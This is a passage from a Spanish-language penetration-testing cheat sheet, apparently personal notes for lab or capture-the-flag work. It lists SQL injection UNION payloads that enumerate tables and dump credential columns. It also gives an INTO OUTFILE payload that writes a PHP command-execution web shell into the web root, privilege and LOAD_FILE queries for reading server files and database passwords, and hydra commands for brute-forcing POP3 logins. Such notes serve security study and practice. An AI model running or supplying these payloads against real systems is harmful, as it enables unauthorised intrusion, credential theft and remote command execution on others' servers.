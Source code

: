 ```
$data' union select column_name from information_schema.columns where table_schema="$basedatos" and table_name="$tabla"-- -

$data' union select group_concat($columna1,0x3a,$columna2) from $tabla-- - 
# en este caso solo se usa 1 campo para 2 columnas

# si $tabla está en otra base de datos: $basedatos.$tabla

$data' union select "algo" into outfile "/var/www/html/prueba.txt"-- - 
# probamos a acceder a ip/prueba.txt

$data' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- - 
# para ver si podemos escribir en un fichero
# a lo mejor pudiendo subir codigo php para que lo interprete

' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
# para ver las sentencias que podemos hacer

LOAD_FILE('alsdjfl'); 
# podemos listar contenido de la web para ver como
# funciona el php y incluso sacar psswd y user de db
```

#### XSS

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)


#### Otras vulnerabilidades web


-  [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)



---

### Kerberos -> 88

- [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)

---

### POP3 -> 110

#### Fuerza bruta

```
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
```
